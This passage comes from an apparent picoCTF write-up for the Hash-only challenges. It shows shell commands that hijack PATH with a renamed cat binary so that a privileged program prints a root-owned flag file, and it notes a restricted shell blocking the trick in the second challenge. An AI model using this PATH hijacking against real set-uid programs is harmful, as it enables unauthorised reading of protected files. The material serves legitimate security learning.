 ```bash=

37b576b3ec8179c5714bcd173ce8c1cc  /root/flag.txt
```

Unfortunately, this approach doesn't work since a set-uid program cannot run with `LD_PRELOAD` for security concern. Hence, I took the other method.

> Second attempt: tamper with `md5sum`

In the second approach, I tamper with `md5sum`. I copy the command `cat` to the current directory and rename it after `md5sum`. Then, I change the environment variable `PATH` to read the current directory first so that it will get the tampered `md5sum` instead of the correct one.

```bash=
ctf-player@pico-chall$ which cat
/usr/bin/cat
ctf-player@pico-chall$ cp /usr/bin/cat .
ctf-player@pico-chall$ mv cat md5sum
ctf-player@pico-chall$ export PATH=.:$PATH
ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_9722baa4}
```

And this approach works!

Flag: `picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_9722baa4}`

### Hash-only-2
> Complete date: 2025-03-12

```
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash.
If only it could just give you the actual content!
```

This challenge is similar to Hash-only-1. This time, I have a command `flaghasher` instead of an executable program. The command is identical to the program in hash-only-1. It uses a system call to run a shell command `md5sum` to calculate the MD5 sum of the flag.

I attempt the same approach as hash-only-1 by tampering with the `md5sum` and modify the environment variable `env`.

```bash=
ctf-player@pico-chall$ which cat
/usr/bin/cat
ctf-player@pico-chall$ cp /usr/bin/cat .
ctf-player@pico-chall$ mv cat md5sum
ctf-player@pico-chall$ export PATH=.:$PATH
-rbash: PATH: readonly variable
```

Surprisingly! The environment vriable is read-only. Well... I check is there anything interesting about `PATH` variable and the location of `md5sum`.
